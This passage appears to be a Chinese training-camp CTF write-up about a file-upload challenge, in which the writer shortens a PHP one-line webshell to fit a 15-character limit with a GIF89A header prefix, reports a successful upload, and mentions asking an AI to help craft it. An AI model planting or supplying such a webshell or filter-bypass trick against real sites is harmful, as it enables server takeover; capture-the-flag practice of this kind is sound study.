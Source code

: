![](./imgs/20250122集训_length.png)

看来长度得小于等于15，问ai后将一句话木马改成

```php
GIF89A<?=`$x`?>
```

发现成功上传

![](./imgs/20250122集训_success.png)

但是这样在路径对的情况下连不到木马？？
